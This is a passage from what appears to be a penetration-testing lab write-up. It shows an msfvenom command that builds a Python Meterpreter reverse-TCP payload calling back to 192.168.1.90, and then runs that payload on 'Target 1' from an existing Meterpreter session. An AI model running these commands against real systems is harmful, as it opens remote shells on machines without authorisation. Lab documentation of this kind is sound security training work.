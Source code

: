         ![steven_sshexec](P3_Images/P3T1_steven_sshexec.png)

    - Crafted payload with msfvenom:
      - `msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o /tmp/pythonwhoo.py`
      
        ![pythonwhoo](P3_Images/P3T1_msfvenom_steven.png)
    - The upload command did not work inside the Meterpreter session already in existence, so using nano, I cut and pasted the contents of the payload into a new file created on Target 1.  

    - In the existing Meterpreter session, executed the payload:
      - `execute -f pythonwhoo.py`

        ![Deploy_custom_package](P3_Images/P3T1_execute_pythonwhoo.png)
